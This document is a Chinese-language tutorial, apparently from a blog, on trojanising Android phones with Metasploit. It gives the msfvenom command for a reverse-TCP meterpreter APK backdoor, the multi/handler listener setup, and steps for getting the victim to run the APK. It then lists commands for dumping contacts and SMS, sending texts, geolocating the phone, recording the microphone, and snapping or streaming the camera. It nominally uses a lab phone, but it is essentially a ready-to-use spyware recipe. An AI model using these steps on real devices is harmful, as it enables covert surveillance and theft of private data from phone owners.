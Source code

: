 # 一、环境准备

1. MSF-Metasploit Framework
2. 一台安卓手机或者模拟器

# 二、木马生成

1. 生成一个APK后门

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4567 R>k.apk
```

# 三、配置监控

1. 启动msf   终端内输入：`msfconsole` 启动msf![1643003592876](https://img.gyxnb.top/img/1643003592876.png)

2. 载入监控模块  msf中输入：  

   `use exploit/multi/handler`

3. 载入payload MSF终端中输入： 

   `set payload android/meterpreter/reverse_tcp`

   ![1643003612323](https://img.gyxnb.top/img/1643003612323.png)

4. 配置payload  MSF终端中输入：`show options`

5. 配置监控IP MSF中输入：`set lhost  192.168.70.3`

6. 配置监控端口  MSF中输入：`set lport 4567`

7. 执行监控  msf终端中输入： 

   `run`![1643003633911](https://img.gyxnb.top/img/1643003633911.png)

# 四、攻击利用

1. 将木马上传到靶机

2. 在靶机上执行木马

3. 完成攻击利用

   ![1643003654523](https://img.gyxnb.top/img/1643003654523.png)



获取手机通讯录： `dump_contacts`

获取短信记录：`dump_sms`

控制实验手机发短信：`send_sms -d 15330252525 -t "hello"`

获取实验手机GPS定位信息：`geolocate`

获取实验手机Wi-Fi定位信息：`wlan_geolocate`

控制实验手机录音：`record_mic -d  5`

获取实验手机相机设备：`webcam_list`

控制实验手机拍照 ：`webcam_snap`

**直播实验手机摄像头**：`webcam_stream`